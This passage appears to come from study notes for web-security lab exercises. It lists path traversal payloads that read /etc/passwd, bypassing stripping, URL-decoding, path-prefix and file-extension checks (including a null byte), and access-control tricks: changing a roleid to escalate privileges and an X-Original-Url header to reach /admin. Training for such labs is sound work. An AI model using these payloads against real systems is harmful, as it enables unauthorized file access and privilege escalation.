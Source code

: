 ### 2. File path traversal, traversal sequences stripped non-recursively
```
/image?filename=..././..././..././etc/passwd
```

### 3. File path traversal, traversal sequences stripped with superfluous URL-decode
```
Double URL-encode ../../../etc/passwd
(e.g. %252E%252E%252F%252E%252E%252F%252E%252E%252Fetc%252Fpasswd)
It is recommended to use cyberchef to encode
```

### 4. File path traversal, validation of start of path
```
/image?filename=/var/www/images/../../../../etc/passwd
```

### 5. File path traversal, validation of file extension with null byte bypass
```
../../../../../../etc/passwd%00.jpg
```


# Access control vulnerabilities
## Approach
To be honest, I cannot share with you my approach on this, because you just need to "see", where you can get some kind of IDOR. Inspect server responses to see some additional info. There are several labs on this topic, but the most impactful are shown below.  


## Labs
### 1. User role can be modified in user profile
  
Check for roleid in response:  
![image](https://user-images.githubusercontent.com/58632878/224714276-0c4e9d50-41ad-43f3-bb7c-3b2076e44d57.png)  
  
Add it to your request and change it to 2:  
**ATTENTION:** If you find roleid on your exam and numbers from 0 to 10 are not working, brute it from 0 to 100 via Intruder.  
![image](https://user-images.githubusercontent.com/58632878/224714601-eccd55fa-aec1-4d69-b126-2fc12dbd69d2.png)  

### 2. URL-based access control can be circumvented
```
X-Original-Url: /admin
```

